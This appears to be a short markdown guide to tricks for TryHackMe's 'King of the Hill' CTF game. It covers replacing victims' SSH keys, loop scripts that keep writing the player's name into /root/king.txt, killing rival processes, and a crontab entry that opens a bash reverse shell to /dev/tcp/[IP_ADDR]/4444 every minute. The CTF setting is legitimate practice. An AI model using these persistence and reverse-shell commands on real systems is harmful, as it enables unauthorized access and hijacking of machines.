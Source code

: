 ## Simple Tricks I use While Playing King Of The Hill

Hey guys, hope you're doing well :) 

For those who are playing [TryHackMe](https://tryhackme.com) [king of the hill](https://www.tryhackme.com/games/koth)... 

These are some tips/tricks I usually do

First thing I do when I get into the machine is deleting ssh keys and put mine

To generate id_rsa & id_rsa.pub you could use ssh-keygen

Then, enter the machine using `ssh -i id_rsa remote_username@remote_host` 

using this simple trick only you can enter the machine using ssh...

To automate putting ur username inside king.txt and make sure that there's no username except yours,u can create a simple script to do that 

```
#!/bin/bash
while :
do      
        eval "chmod 755 /root/king.txt"
        eval "chattr -i /root/king.txt"
        eval "echo [usernameHere] >> /root/king.txt"
        eval " > /root/king.txt"
done

#this script is created in 1 min :P
```
or by simpler way
```
while [[ $(cat /root/king.txt) != "[usernameHere]" ]]; do chmod 755 /root/king.txt; chattr -aie /root/king.txt; echo "[usernamehere]" >> /root/king.txt; done

#this script is created in less than minute :P
# or if someone already have patched the "echo" command then you can use lessecho for that lessecho is a alternate of echo command

```

also u can add your username automatically by putting inside /etc/crontab

`* * * * * echo "[usernameHere]" >> /root/king.txt >/dev/null 2>&1`

and below command can be used to get persistence on the system but run it after getting root access so every minute you can get shell as root in case of someone is
trying to kill your terminal else if you do this without getting root you'll get shell as normal user not as root user

`* * * * * /bin/bash -c "/bin/bash -i >& /dev/tcp/[IP_ADDR]/4444 0>&1"`

So this one trick is to check, what loop is running if it is not yours then how you can find that loop and kill it<br>
<i><b>so for this you can check proccesses running on top in "top" command the running proccesses will be there with their PIDs</b></i>
and then...<br>

`kill -9 PID_OF_LOOP`

<i><b>there is another version of top is also available in our machines that is "htop" but "htop" may not be available on koth machines</b></i>


#SimpleButEffective
#staySafe
